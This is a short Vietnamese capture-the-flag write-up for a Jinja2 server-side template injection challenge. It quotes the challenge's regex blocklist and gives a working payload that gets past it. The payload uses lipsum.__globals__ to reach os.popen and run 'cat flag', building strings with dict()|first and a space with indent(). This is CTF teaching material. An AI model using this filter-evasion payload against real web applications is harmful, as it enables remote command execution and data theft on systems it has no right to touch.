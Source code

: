 # Solution


Từ file `app.py` có thể thấy đề filter `regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"`

vì vậy ta cần contruct payload sao cho không bị vướng regex expression này

final payload:
```
{{lipsum.__globals__.__getitem__(dict(os=x)|first).popen((dict(cat=x)|first)+(dict(fl=x)|first|indent((dict(bla=x)|first)|length,true))+(dict(ag=x)|first)).read()}}
```

Giải thích một tí: 

Vì đề không cho dùng `'` nên mình dùng `dict()` để thay thế: `(dict(os=x)|first) -> 'os'`

để tạo ra space thì mình dùng `indent()`, đọc thêm ở [đây](https://tedboy.github.io/jinja2/templ14.html#indent)

Kết quả:

![flag](https://user-images.githubusercontent.com/77546253/176494531-0b33bf8a-192f-42cb-8f26-ff9ec29136a7.png)

